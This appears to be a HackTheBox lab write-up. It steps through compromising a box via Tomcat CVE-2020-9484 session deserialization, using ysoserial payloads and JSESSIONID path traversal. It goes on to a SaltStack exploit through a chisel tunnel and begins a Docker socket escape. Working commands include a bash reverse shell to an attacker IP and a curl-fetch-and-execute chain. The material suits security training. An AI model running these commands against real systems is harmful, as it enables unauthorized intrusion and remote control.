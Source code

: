 HackTheBox
# Scan
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240401181810.png)

# Uploading files
When trying to upload a file, it accepts all extension, even whithout any, however when there is no filename, there is an error.

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240402175526.png)

Testing email: *test@tes    t.com* We have an error as well:
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240402175654.png)
It seems that the upload folder is */opt/samples/uploads* but we don't have access to this

Considering the errors and nmap scan result, this service uses **Apache 9.0.27** which is vulnerable

https://github.com/PenTestical/CVE-2020-9484

Explanation of CVE-2020-9484
https://www.prismosystems.com/blog/cve-2020-9484#:~:text=Exploitation%20Details%20of%20CVE%2D2020%2D9484&text=The%20vulnerability%20resides%20in%20Persistent,of%20the%20attacker%2Dcontrolled%20object.

If *JSSESIONID=../../../../../tmp/test* , at first the manager will verify if this is in memory, is not Persistance Manager (if configured) check if this is stored in disk in the path as *"sessionid".session*

It will look in that path as test.session, as we know that probably .session file will be stored in */opt/samples/uploads* so we can create the payload:

*JSESSIONID=../../../../opt/samples/uploads/file*

Using a *filename=file.session*, in this maner as JSESSIONID doesn't exist in memory, Pesistance Manager wil look for add the extension .session to file, we wiil look for *file.session* in upload *file* and as there is a coincidence, it will execute *file.session*

Using Vulnerable Serialization
#VulnerableSerialization
![[Ysoserial]]

Tyring a ping test, we craft a payload loading a file *ping.session*

`java --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections1 'ping -c 1 10.10.14.70' > ping.session`

We can now upload *pin.session* to the vulnerable web server.

### Execution of the payload
We can call this file directly by using *curl* and to get the pin response, we wait for a response by using *tcpdump* tool, the vulnerable JSESSIONID receives the storage path of the application and Persistant manager adds '.session' at the end
````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/ping"
````

However, we don't receive anything

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403082426.png)
### Using CommonsCollections2
````
java -jar ysoserial-all.jar CommonsCollections2 'ping -c 1 10.10.14.70' > ping2.session
````
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403155457.png)
After loaded, we lunch the curl:
`curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/ping2"`

Now we receive the ICMP

**Note:** It's necessary to have a JSESSION ID to load the file so at first we must try with different payloads or load many time until get one, if not it won't work.

## Remote Code execution

We can send a reverse shell in three steps:
### 1. Generating the reverse shell
By leveraging curl, we can upload by a web server in our side by crafting an *index.html* file with a reverse shell:

`#!/bin/bash`
`bash -i >& /dev/tcp/10.10.14.70/4443 0>&1`

Creating the file, after uploaded to the file
 java -jar ysoserial-all.jar CommonsCollections2 'curl 10.10.14.70 -o /dev/shm/reverse.sh' > pwned.session

````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/pwned"
````

We get a GET request so we can infer it was executed and 
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403160836.png)
### 2. Giving execution permission
````
 java -jar ysoserial-all.jar CommonsCollections2 'chmod +x /dev/shm/reverse.sh' > pwned2.session
````

Load the file and then
````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/pwned2"
````
### 3. Generating the shell
````
 java -jar ysoserial-all.jar CommonsCollections2 '/dev/shm/reverse.sh' > pwned3.session
````

Load the file and then
````
curl -s -X GET "http://10.10.10.205:8080/" -H "Cookie: JSESSIONID=../../../../../../../opt/samples/uploads/pwned3"
````

curl must be executing with the port 4443 already listening

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403163214.png)

## Privilege Escalation
We can exploit pkexec but it's not the purpose of this machine 
`find \-perm -4000 2>/dev/null`
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403163952.png)

Reviewing internal ports
`netstat -nat`

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403164128.png)

## SaltStak exploitation
Ports 4505 and 4506 were not found in nmap scam

https://www.exploit-db.com/exploits/48421

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403171344.png)

For this exploit we need to have installed module *salt*

As ports 4505 and 4506 are open internally, we can have access to them by chisel 
Uloading chisel:
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403172222.png)

Creating the tunnel:
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403172333.png)

Adding to /etc/proxychains.conf

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403172430.png)

### Using the exploit with proxychains

`proxychains python3 ssaltstack_exploit.py`

Testing command execution with the exploit:
`proxychains python3 ssaltstack_exploit.py --exec "ping 10.10.14.70"`
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403172910.png)

### Creating a shell to the container
We test as first `"bash -c 'bash -i >& /dev/tcp/10.10.14.70/4443 0>&1'"` but it doesn't work, considering using *'* at the beginning and *"* in the inner bash.

`proxychains python3 saltstack_exploit.py --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.70/4443 0>&1"'`

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403173313.png)

## Docker Container breakout
[[Docker Breakout]]

Checking files and *history* of the machine  
- The `history` command in Linux is a powerful feature used primarily in command-line interfaces (CLI) to display a list of commands that have been previously entered by the user in the current session or saved in a user's history file
We found a curl to *docker.sock* to list images

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403175021.png)
we only have access to this with *--unix-sockets*

We can see the same information prettier by sending to the attacker machine

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403180537.png)
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403180522.png)

We can try as well:
`curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json`

To get access to dockers from the main machine, we don't have permissions but we can confirm that the path is /file/run/docker that is found in the container
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240403180841.png)

## Writable Docker Socket
We already found an image called *sandbox:latest* 

![[Writable Docker Socket (docker.sock)]]
